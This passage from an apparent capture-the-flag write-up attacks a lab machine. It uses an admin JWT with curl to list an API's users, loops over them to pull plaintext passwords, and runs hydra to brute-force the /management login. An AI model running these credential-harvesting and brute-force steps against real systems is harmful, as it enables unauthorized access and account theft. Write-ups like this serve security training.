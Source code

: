 When I do that, I get back users (without piped in `jq` for readability):

    
    
    root@kali# curl -s http://10.10.10.137:3000/users -H "authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4MzYwNDk0LCJleHAiOjE1Njg0NDY4OTR9.3hVk0ASf7R
    fGtwbnAerIRY1V6n5TWjrETlBqg7KkCtQ" | jq .
    [
      {
        "ID": "1",
        "name": "Admin",
        "Role": "Superuser"
      },
      {
        "ID": "2",
        "name": "Derry",
        "Role": "Web Admin"
      },
      {
        "ID": "3",
        "name": "Yuri",
        "Role": "Beta Tester"
      },
      {
        "ID": "4",
        "name": "Dory",
        "Role": "Supporter"
      }
    ]
    

I can try each user and get their password:

    
    
    root@kali# for user in admin derry yuri dory; do curl http://10.10.10.137:3000/users/${user} -H "authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MTU5OTk3LCJleHAiOjE1NTkyNDYzOTd9.a5kDgyES1Ot7qRzArdz2ehnvANv9yYdzZczG5EIISRs"; echo; done
    {"name":"Admin","password":"WX5b7)>/rp$U)FW"}
    {"name":"Derry","password":"rZ86wwLvx7jUxtch"}
    {"name":"Yuri","password":"bet@tester87"}
    {"name":"Dory","password":"5y:!xa=ybfe)/QD"}
    

### Access /management

Armed with new usernames and passwords, I’ll give the various logins another
show. I’ll drop the usernames and passwords into files, and run `hydra` to try
them. For `/management`, it works:

    
    
    root@kali# hydra -L users -P passwords -s 80 -f 10.10.10.137 http-get /management
    Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-05-29 16:26:13
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 35 login tries (l:7/p:5), ~3 tries per task
    [DATA] attacking http-get://10.10.10.137:80/management
    [80][http-get] host: 10.10.10.137   login: Derry   password: rZ86wwLvx7jUxtch
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-05-29 16:26:14
    